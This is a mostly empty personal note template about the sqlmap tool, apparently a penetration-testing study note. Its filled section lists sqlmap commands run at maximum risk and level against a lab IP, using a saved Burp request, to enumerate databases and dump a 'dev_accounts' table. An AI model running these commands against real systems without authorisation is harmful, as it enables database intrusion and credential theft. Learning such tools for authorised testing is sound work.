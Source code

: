 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[sqlmap]]  
___

## Description:


## Installation


## Commands


```
sqlmap -u http://10.11.0.22/debug.php?id=1
```

Save the request from burp in the proxy tab by going to action, and then save item.

Then run sqlmap with the following (burp1 is the file saved from burp):
```

sqlmap -r burp1 --risk=3 --level=5 -databases --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch

```
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:22 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
